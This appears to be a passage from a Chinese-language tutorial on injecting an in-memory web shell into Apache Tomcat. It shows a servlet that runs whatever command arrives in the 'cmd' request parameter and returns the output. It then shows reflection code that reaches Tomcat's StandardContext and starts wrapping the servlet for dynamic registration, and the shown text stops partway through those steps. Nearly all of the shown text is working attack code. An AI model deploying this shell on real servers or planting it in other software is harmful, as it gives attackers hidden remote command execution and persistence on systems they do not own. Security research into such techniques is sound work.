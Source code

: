 ```java
import javax.servlet.ServletException;
import javax.servlet.ServletRequest;
import javax.servlet.ServletResponse;
import javax.servlet.annotation.WebServlet;
import javax.servlet.http.HttpServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.IOException;

@WebServlet(name = "ServletTest")
public class ServletTest extends HttpServlet {
    @Override
    public void init() throws ServletException {
        System.out.println("init");
    }

    @Override
    public void service(ServletRequest servletRequest, ServletResponse servletResponse) throws ServletException, IOException {
        String cmd = servletRequest.getParameter("cmd");
        if (cmd != null) {
            Process process = Runtime.getRuntime().exec(cmd);
            java.io.BufferedReader bufferedReader = new java.io.BufferedReader(
                    new java.io.InputStreamReader(process.getInputStream()));
            StringBuilder stringBuilder = new StringBuilder();
            String line;
            while ((line = bufferedReader.readLine()) != null) {
                stringBuilder.append(line + '\n');
            }
            servletResponse.getOutputStream().write(stringBuilder.toString().getBytes());
            servletResponse.getOutputStream().flush();
            servletResponse.getOutputStream().close();
            return;
        }
    }

    protected void doPost(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {

    }

    protected void doGet(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {

    }
}

```
获取context部分与filter中相同,仍然从org.apache.catalina.core.ApplicationContext反射获取
```java
ServletContext servletContext = request.getSession().getServletContext();
Field appctx = servletContext.getClass().getDeclaredField("context");
appctx.setAccessible(true);
ApplicationContext applicationContext = (ApplicationContext) appctx.get(servletContext);
Field stdctx = applicationContext.getClass().getDeclaredField("context");
stdctx.setAccessible(true);
StandardContext standardContext = (StandardContext) stdctx.get(applicationContext);
```
然后需要将上文写的servlet封装成wrapper再使用context添加
```java
ServletTest demo = new ServletTest();
org.apache.catalina.Wrapper wrapper = standardContext.createWrapper();
wrapper.setName("xyz");
wrapper.setLoadOnStartup(1);
```